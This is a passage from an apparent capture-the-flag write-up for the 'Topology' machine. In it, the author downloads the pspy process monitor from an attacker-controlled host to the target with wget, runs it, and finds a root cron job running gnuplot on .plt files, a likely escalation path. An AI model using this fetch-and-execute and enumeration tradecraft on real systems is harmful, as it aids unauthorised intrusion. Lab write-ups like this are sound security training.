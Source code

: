 #### Processes

`ps auxww` doesn’t show anything that jumps out as super interesting to me. I’ll grab a copy of [pspy](https://github.com/DominicBreuker/pspy) from GitHub, host it on my VM in a web-accessible directory, and upload it to Topology with `wget`:

```

vdaisley@topology:/dev/shm$ wget 10.10.14.6/pspy64
--2023-09-07 13:45:22--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                               100%[==================================>]   2.96M  3.67MB/s    in 0.8s    

2023-09-07 13:45:23 (3.67 MB/s) - ‘pspy64’ saved [3104768/3104768]

```

I’ll set it as executable and run it:

```

vdaisley@topology:/dev/shm$ chmod +x pspy64 
vdaisley@topology:/dev/shm$ ./pspy64
...[snip]...

```

On the minute, there’s a set of processes that show up:

```

2023/09/07 13:47:01 CMD: UID=0     PID=218687 | /usr/sbin/CRON -f 
2023/09/07 13:47:01 CMD: UID=0     PID=218686 | /usr/sbin/CRON -f 
2023/09/07 13:47:01 CMD: UID=0     PID=218688 | 
2023/09/07 13:47:01 CMD: UID=0     PID=218690 | /usr/sbin/CRON -f 
2023/09/07 13:47:01 CMD: UID=0     PID=218689 | /bin/sh /opt/gnuplot/getdata.sh 
2023/09/07 13:47:01 CMD: UID=0     PID=218691 | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/09/07 13:47:01 CMD: UID=0     PID=218700 | sed s/,//g 
2023/09/07 13:47:01 CMD: UID=0     PID=218699 | /bin/sh /opt/gnuplot/getdata.sh 
2023/09/07 13:47:01 CMD: UID=0     PID=218698 | /bin/sh /opt/gnuplot/getdata.sh 
2023/09/07 13:47:01 CMD: UID=0     PID=218697 | uptime 
2023/09/07 13:47:01 CMD: UID=0     PID=218696 | gnuplot /opt/gnuplot/loadplot.plt 
2023/09/07 13:47:01 CMD: UID=???   PID=218695 | ???
2023/09/07 13:47:01 CMD: UID=???   PID=218694 | ???
2023/09/07 13:47:01 CMD: UID=???   PID=218693 | ???
2023/09/07 13:47:01 CMD: UID=0     PID=218701 | /bin/sh /opt/gnuplot/getdata.sh 
2023/09/07 13:47:01 CMD: UID=0     PID=218702 | /bin/sh /opt/gnuplot/getdata.sh 
2023/09/07 13:47:01 CMD: UID=0     PID=218703 | gnuplot /opt/gnuplot/networkplot.plt 

```
